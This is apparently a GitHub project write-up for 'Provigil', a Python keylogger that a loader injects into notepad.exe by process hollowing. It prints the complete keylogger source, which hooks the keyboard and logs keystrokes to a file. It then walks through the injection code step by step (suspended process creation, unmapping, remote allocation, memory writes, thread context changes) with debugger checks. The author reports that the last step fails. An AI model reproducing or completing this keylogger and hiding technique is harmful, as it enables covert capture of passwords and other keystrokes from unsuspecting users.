



# 💀 Provigil : Trivial keylogger with Process Hollowing

## Synopsis

Provigil is a simple keylogger wrote in python which uses process injection to hide it self. The Provigil project is split in two modules : the first one is **Provigil.py** which contains the keylogger and the second one is **ProLoader.py **whose purpose is to inject the keylogger (Provigil.py) into the victim process.

.png>)

There is different techniques to inject malicious code into a victim process such as : _Extra Windows Memory injection, Classic DLL injection_, ect.. Provigil uses **Process Hollowing** technique. The latter consists to hollow out legitimate code from the target process' memory and replaces it with a malicious executable.


## Keylogger&#x20;

First, let's focus on **Provigil.py. **It is a trivial keylogger which captures user keys in a buffer which is flushed once the **Enter **key is pressed. We can stop the keylogger by pressing **Echap **key.

```python
import pyWinhook as pyHook
import pythoncom, sys, logging


class KeyLogger:

    buffer = ""
    file_log = "./log.txt"

    def __init__(self):
        self.init_log()
        

    def init_log(self):
        logging.basicConfig(filename=self.file_log, level=logging.DEBUG, format='%(message)s')

    def KeyboardEvent(self, event):
        if event.Ascii == 13:
            logging.log(10, self.buffer)
            self.buffer = ""
        elif event.Ascii == 27:
            exit(0)
        else:
            self.buffer += chr(event.Ascii)
        return True

    def keyCapture(self):
        hooks_manager = pyHook.HookManager()
        hooks_manager.KeyDown = self.KeyboardEvent
        hooks_manager.HookKeyboard()
        pythoncom.PumpMessages()


key_logger = KeyLogger()
key_logger.keyCapture()
```

## Step 1 : Load Keylogger Executable

The first step consists to load the Provigil keylogger executable in memory.&#x20;

The Windows API function call [**CreateFileW **](https://docs.microsoft.com/en-us/windows/win32/api/fileapi/nf-fileapi-createfilew)returns a handle that can be used to access the file. We use it to have different information about the file.

```python
hReplacement = HANDLE()
        hReplacement = windll.kernel32.CreateFileW(
        self.PAYLOAD_EXE,
        GENERIC_READ,
        FILE_SHARE_READ,
        0,
        OPEN_EXISTING,
        0,
        0)
        if (hReplacement == -1):
            logger.error(f"\tCreateFile error: {FormatError(GetLastError())}")
            sys.exit(1)
```

Thanks to handler we can get the keylogger program size to allocate memory. I use the WinAPI function [**VirtualAlloc **](https://docs.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualalloc)wich set automatically the memory initialized to zero. `allocated_adress `contains now the base address of the allocated region of pages.

```python
file_size = windll.kernel32.GetFileSize(hReplacement, 0)

allocated_address = windll.kernel32.VirtualAlloc(
            0,
            file_size,
            MEM_COMMIT | MEM_RESERVE,
            PAGE_EXECUTE_READWRITE,
        )
        if allocated_address == 0:
            logger.error(f"\tVirtualAlloc error: {FormatError(GetLastError())}")
            sys.exit(1)
```

Then we call [**ReadMemory **](https://docs.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-readprocessmemory)function to load the file at the address we previously allocated.

```python
totalNumberofBytesRead = DWORD()
if windll.kernel32.ReadFile(
    hReplacement, 
    LPVOID(allocated_address), 
    file_size, 
    byref(totalNumberofBytesRead), 
    0) == 0:
    logger.error(f"\tError when Reading malware: {FormatError(GetLastError())}")
    sys.exit(1)
windll.kernel32.CloseHandle(hReplacement)
```

### Check

Referring to the logs, keylogger process has been loaded at address `0x2e5149e0000`.

.png>)

We debug the process thanks WinDbg to inspect the memory. Thus, we can see that the process header is correctly load at the corresponding address.

.png>)

## Step 2 : Get Victim Process' Address

Now at this step, we have to spawn the victim process and get his base address.


Let's use **CreateProcessA **Windows function. It creates the victim process in suspended state also it fills the two data structures `startup_`_`info` and _`process_info`. Those structures will give precious informations for the next steps.

```python
startup_info = StartupInfo()
process_info = ProcessInfo()

if windll.kernel32.CreateProcessA(
                    None,
                    create_string_buffer(bytes(self.TARGET, encoding="ascii")),
                    None,
                    None,
                    False,
                    CREATE_SUSPENDED,
                    None,
                    None,
                    byref(self.startup_info),
                    byref(self.process_info),
        ) == 0:
            logger.error(f"\tCreateProcess {self.TARGET} error: {FormatError(GetLastError())}")
            sys.exit(1)
```

Once the victim process created, we get  his thread context by using **GetThreadContext.**

```python
context = Context64()
self.context.ContextFlags = CONTEXT_FULL
if windll.kernel32.GetThreadContext(self.process_info.hThread, byref(self.context)) == 0:
            logger.error(f"\tError in GetThreadContext: {FormatError(GetLastError())}")
            sys.exit(1)
```

The `context` data structure give us registers value information about the current thread of the victim process. Security Researchers found that the **register Rdx** was pointing to a memory location. `16 bytes` after this location contains the address of the location of ImageBase. Knowing that, we uses [**ReadProcessMemory **](https://docs.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-readprocessmemory)function to read** **the **register Rdx** wich give us the victim's image base.

```python
target_image_base = LPVOID()
if windll.kernel32.ReadProcessMemory(
                self.process_info.hProcess,
                LPCVOID(self.context.Rdx + 16),
                byref(target_image_base),
                8,
                None
        ) == 0:
            logger.error(f"\tError in ReadProcessMemory: {FormatError(GetLastError())}")
            sys.exit(1)
```

### Check

.png>)

We attach the debugger to the victim process created.

.PNG>)

Inspecting the victim thread registers, we can see `ImageBaseAddress` in the **PEB structure** is matching the **Rdx register**.

.PNG>)

## Step 3 : Hollow Out Victim Process

Using the image base address of the victim process we can now hollow. The [**NtUnmapViewOfSection **](https://docs.microsoft.com/en-us/windows-hardware/drivers/ddi/wdm/nf-wdm-zwunmapviewofsection)is a native Windows calls which unmaps a [view](https://docs.microsoft.com/en-us/windows-hardware/test/wpt/view) of a section from the virtual address space of a subject process. Native API is used in the early stages of Windows Startup process when other components and APIs are still unavailable.

```python
if windll.ntdll.NtUnmapViewOfSection(self.process_info.hProcess, target_image_base) == STATUS_ACCESS_DENIED:
            logger.error(f"Error in NtUnmapViewOfSection: {FormatError(GetLastError())}")
            sys.exit(1)
```

### Check

By referring the victim image base address, we observe that the victim image has been correctly unmapped from memory.



## Step 4 : Allocate Memory in Victim Process

In this step, we will use the python module [pefile ](https://pypi.org/project/pefile/)which can parse and give information about** PE File**. Our function `PE_Parsing` return a tuple contains PE file structure and PE file data.

```python
    def PE_parsing(self):
        logger.info(f"[*] Parsing {self.PAYLOAD_EXE}")
        provigil_pe = pefile.PE(self.PAYLOAD_EXE)
        with open(self.PAYLOAD_EXE, "rb") as h_payload:
            provigil_data = h_payload.read()
        logger.debug(f"\tMalware ImageBase : {hex(provigil_pe.OPTIONAL_HEADER.ImageBase)}")
        logger.debug(f"\tMalware EntryPoint : {hex(provigil_pe.OPTIONAL_HEADER.AddressOfEntryPoint)}\n")
        return (provigil_pe, provigil_data)
```

Now we can use [VirtualAllocEx ](https://docs.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualallocex)function to change the state of the victim process region memory. We pass in parameter `provigil_pe_info[0].OPTIONAL_HEADER.SizeOfImage` which is the size of keylogger image and obviously the size we want to allocate.

```python
windll.kernel32.VirtualAllocEx.restype = LPVOID
hollowed_allocated_address = windll.kernel32.VirtualAllocEx(
            self.process_info.hProcess,
            LPVOID(target_image_base.value),
            provigil_pe_info[0].OPTIONAL_HEADER.SizeOfImage,
            MEM_COMMIT | MEM_RESERVE,
            PAGE_EXECUTE_READWRITE,
        )
if hollowed_allocated_address == 0:
            logger.error(f"\tError in VirtualAllocEx: {FormatError(GetLastError())}")
            sys.exit(1)
```

### Check


We can see memory has been correctly allocated at victim process image base address.


## Step 5 : Inject Code

Once the memory used to accommodate Provigil process, we can now write the keylogger data in it.

Firstly we will write the Provigil source image headers into the newly allocated memory in the victim process. To do that we call the [WriteProcessMemory](https://docs.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-writeprocessmemory) function.

```python
if windll.kernel32.WriteProcessMemory(
                    self.process_info.hProcess,
                    LPVOID(target_image_base.value),
                    LPCVOID(payload_allocated_adress),
                    provigil_pe_info[0].OPTIONAL_HEADER.SizeOfHeaders,
                    None,
        ) == 0:
            logger.error(f"\tWriteProcessMemory error: {FormatError(GetLastError())}")
            sys.exit(1)
```

After that, we do the same operation through all the sections that constitute the Provigil executable.

```python
for section in provigil_pe_info[0].sections:
            section_name = section.Name.decode("utf-8").strip("\x00")
            logger.info(f"\tWriting section {section_name} (to {hex(hollowed_allocated_address + section.VirtualAddress)})")
            if windll.kernel32.WriteProcessMemory(
                    self.process_info.hProcess,
                    LPVOID(hollowed_allocated_address.value + section.VirtualAddress),
                    provigil_pe_info[1][section.PointerToRawData:],
                    section.SizeOfRawData,
                    0,
            ) == 0:
                logger.error(f"\tWriteProcessMemory error: {FormatError(GetLastError())}")
                sys.exit(1)
```

### Check


By referring the victim image base address, we can see the PE image header of Provigil has been correctly written.



## Step 6 : Restart Victim Process

We can take the last step which consists to update info about the thread context.


We update the `AddressOfEntryPoint` of the source image by editing the **Rcx registe**r of the victim process.

```python
    self.context.Rcx = hollowed_allocated_address + provigil_pe_info[0].OPTIONAL_HEADER.AddressOfEntryPoint
```

As we saw in the step 3, the **Rdx register** contains the image base address of the current process. Hence we have to modify the **register Rdx** to provide the new image base corresponding to the keylogger executable.

```python
if windll.kernel32.WriteProcessMemory(
                self.process_info.hProcess,
                LPVOID(self.context.Rdx + 16),
                provigil_pe_info[1][provigil_pe_info[0].OPTIONAL_HEADER.get_field_absolute_offset("ImageBase"):],
                sizeof(LPVOID),
                None,
        ) == 0:
            logger.error(f"\tWriteProcessMemory error: {FormatError(GetLastError())}")
            sys.exit(1)
```

Then, we can update the context structure to apply our change.

```python
if windll.kernel32.SetThreadContext(self.process_info.hThread, byref(self.context)) == 0:
            logger.error(f"\tSetThreadContext error: {FormatError(GetLastError())}")
            sys.exit(1)
```

And finally resume the thread ! :call\_me:

```
 if windll.kernel32.ResumeThread(self.process_info.hThread) == 0:
            logger.error(f"\tResumeThread error: {FormatError(GetLastError())}")
            sys.exit(1)
```

The Provigil keylogger should run inside the victim process (notepad.exe) but unfortunately I got this windows error... :cry:. I tried to run [opensource POC](https://dev.to/wireless90/process-injection-process-hollowing-52m1) on my environment however the error is still the same.



By searching a little on the forums I found an interesting lead to explore.

.png>)

## Conclusion

This project was great because it allowed me to understand :&#x20;

* How Windows executables are loaded into memory.
* Windows API.&#x20;
* The structure of PE files.
* System programming with Python

Regarding the difficulties encountered :&#x20;

* Python is not the appropriate programming language for this type of project. We prefer C++ or .NET.
* Most POCs found are in 32 bits.
* Error even when using already existing projects.
